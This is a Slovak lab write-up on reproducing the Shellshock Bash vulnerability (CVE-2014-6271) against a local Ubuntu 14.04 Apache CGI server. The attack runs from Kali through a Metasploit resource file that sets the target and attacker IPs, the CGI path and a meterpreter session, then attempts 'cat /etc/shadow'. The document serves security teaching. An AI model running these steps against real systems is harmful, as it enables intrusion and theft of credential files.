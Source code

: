 # Otestovanie zraniteľnosti Shellshock na Ubuntu 14.04

CVE-2014-6271, známe aj ako „Shellshock“, bolo objavené v septembri 2014 bezpečnostným výskumníkom Stéphane Chazelasom.
Využíva chybu v príkazovom interpretery Bash od verzie 1.14 po 4.3. Zraniteľné boli všetky zariadenia,
ktoré ho používali. Vzdialenému útoku boli však vystavení iba používatelia, ktorí boli pripojení na internet. Okrem
toho je potrebný určitý softvér, ktorý poskytuje cestu, cez ktorú sa útočník môže dostať k príkazovému interpreteru
Bash, napríklad pri webovom serveri Apache je to CGI, ktorý slúži na interakciu s jeho programami. Experti
vypočítali, že „Shellshock“ sa týkal vyše 500 miliónov zariadení.

Zraniteľnosť vzniká kvôli chybe v spracovaní premenných prostredia v príkazovom interpretery Bash, najmä definície
funkcií. Toto sa dá zneužiť na vykonanie ľubovoľného kódu, získanie neoprávneného prístupu k systému, poprípade
vykonanie rôznych útokov, ako napríklad DoS, Code Injection alebo Remote Command Execution.

## Konfigurácia Ubuntu

Pre otestovanie sme si stiahli verziu webového servera Apache verzie 2.4.7 a overili verziu príkazového interpreteru
Bash, ktorá bola verzie 4.3.8. Následne sme si vytvorili a vložili na server CGI skript, konkrétne `hw.sh`. V súbore
VAGRANT sme si vybrali vhodný systém na stiahnutie, nastavili adresu IP, stiahli a nakonfigurovali webový server
Apache tak aby bolo možné spúšťať súbory CGI. Nakoniec sme vložili skript `hw.sh` a nastavili ho na spustiteľný.

## Konfigurácia Kali Linux

Pre zaútočenie sme si vložili súbor `set-msfconsole.rc` a `HACK.sh` na plochu distribúcie. Útok spustíme otvorením konzoly a spustením príkazu:

```shell
./Desktop/HACK.sh
```

`HACK.sh` nám otvorí v konzole nástroj msfconsole pomocou súboru `set-msfconsole.rc`. V ňom sa nastaví IP zraniteľnej mašiny pomocou
`set RHOSTS 192.168.50.20` a cesta `set TARGETURI /cgi-bin/hw.sh`, čo nám nastaví cestu k skriptu CGI.
Ostáva nám nastaviť IP útočníka `set LHOST 192.168.50.21` a spustiť útok. 

Po spustení `HACK.sh` sme sa dostali do interpretačného riadku meterpreter, kde sme mohli spustiť `shell` a vypísať
si, pomocou príkazu `cat /etc/shadow`, obsah súboru shadow. V tom nám však systém zabráni, pretože nemáme privilégiá *root*.
